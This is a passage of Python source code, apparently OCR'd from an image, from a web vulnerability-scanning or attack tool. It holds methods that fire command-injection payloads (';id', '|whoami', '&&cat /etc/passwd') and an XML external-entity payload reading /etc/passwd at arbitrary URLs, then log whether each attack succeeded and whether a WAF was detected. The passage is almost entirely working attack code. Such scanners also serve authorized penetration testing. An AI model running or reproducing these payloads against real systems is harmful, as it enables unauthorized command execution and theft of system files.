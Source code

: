                 response_size = len(response.text)
            except:
                continue
            self.log_attack(url, "SSRF", success, payload, http_code, response_size, waf_detected)
            if success:
                return True
        return False

    def test_rce(self, url):
        payloads = [";id", "|whoami", "&&cat /etc/passwd"]
        print(f"[*] Testing RCE on {url}...")
        for payload in payloads:
            success = 0
            http_code = 0
            response_size = 0
            waf_detected = 0
            try:
                test_url = f"{url}?cmd={payload}" if "?" in url else f"{url}?cmd={payload}"
                response = self.session.get(test_url, timeout=10)
                if "uid=" in response.text or "root:x" in response.text:
                    print(f"[!] RCE found on {url} with payload: {payload}")
                    self.vulnerabilities.append({"type": "RCE", "url": url, "payload": payload})
                    success = 1
                http_code = response.status_code
                response_size = len(response.text)
            except:
                continue
            self.log_attack(url, "RCE", success, payload, http_code, response_size, waf_detected)
            if success:
                return True
        return False

    def test_xxe(self, url):
        payload = """<?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <foo>&xxe;</foo>"""
        print(f"[*] Testing XXE on {url}...")
        success = 0
        http_code = 0
        response_size = 0
        waf_detected = 0
        try:
            headers = {"Content-Type": "application/xml"}
            response = self.session.post(url, data=payload, headers=headers, timeout=10)
            if "root:x" in response.text:
                print(f"[!] XXE found on {url}!")
                self.vulnerabilities.append({"type": "XXE", "url": url, "payload": payload})
                success = 1
            http_code = response.status_code
            response_size = len(response.text)
        except:
            pass
        self.log_attack(url, "XXE", success, payload, http_code, response_size, waf_detected)
        return success == 1

